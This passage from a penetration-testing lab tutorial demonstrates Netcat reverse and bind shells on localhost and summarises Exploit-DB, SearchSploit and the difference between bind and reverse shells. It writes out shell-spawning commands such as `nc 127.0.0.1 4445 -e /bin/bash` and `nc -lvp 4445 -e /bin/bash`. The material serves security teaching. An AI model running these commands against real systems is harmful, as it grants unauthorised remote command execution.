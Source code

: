 5. From the attacker's window, we now have a reverse shell opened on the target host, and we can now execute commands to it remotely. 

6. Run `whoami` in the attacker's window.

    - This type of attack requires the host to run the connection string command (`nc 127.0.0.1 4445 -e /bin/bash`), which is often done through some type of **remote-code execution (RCE)** exploit.

    - Use ctrl+C to stop the Netcat connection, and `clear` the windows.

**Bind Shells**

Now, you will demonstrate a bind shell.

1. In the victim/target's window on the right, run `nc -lvp 4445 -e /bin/bash`.

    - The victim now has /bin/bash listening on port 4445, as the following image shows:

	 ![A screenshot depicts the command and its result in the terminal.](images/netcat4.png)
	
2. In the attacker window on the left, connect to port 4445: `nc 127.0.0.1 4445`. Run the `id` command to show you have a shell and can execute commands, as the following image shows: 

	![A screenshot depicts the command in the terminal.](images/netcat5.png)

    - A bind shell requires the listener to be set up on the victim/target, where a reverse shell has the listener on the attacker's machine.

#### Summary 

  - **Exploit-DB.com** is a popular online database that contains publicly disclosed exploits, cataloged according to their **Common Vulnerability and Exposure (CVE)** identifiers.
  - **SearchSploit** is a command-line utility for Exploit-DB that allows you to take an offline copy of the entire Exploit database with you wherever you go.
    - Security professionals can perform detailed offline searches of hundreds of exploit scripts from Exploit-DB using the locally checked-out copy of the online repository.
    - SearchSploit comes preinstalled on Kali Linux and should be updated regularly. 
  - After determining which exploits to use, exploits can be attempted in the **Exploitation** phase.
  - Exploited access to a machine is typically granted in the form of terminal access, known as a **shell**.
  - Two types of shells are **bind** and **reverse**.
     - A **bind shell** is where the remote host opens a port for the current host to connect to. The current, local host then connects to that remote host's port.
     - A **reverse shell** is where the remote host connects back to a port on the local host.
